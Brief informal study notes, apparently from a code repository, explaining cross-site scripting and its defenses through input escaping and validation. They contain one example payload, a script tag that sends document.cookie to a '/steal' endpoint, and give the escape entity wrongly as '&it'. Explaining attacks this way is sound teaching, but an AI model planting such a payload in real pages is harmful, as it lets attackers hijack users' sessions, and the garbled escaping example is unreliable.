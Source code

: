 - what is XSS (cross side scripting)?
   - it allows attacker to put malicios script into web page viewed by the other users
   - commonly used for stealing the session or deform the website
- like <script>fetch(http://localhost:8080/steal?cookie=' +document.cookie);</script>
- how to protect from it?
  - by proper scaping user input (converting specilal character < to &it) to pass as string and browser not treating as script need to be run
  - by properly input validating 
  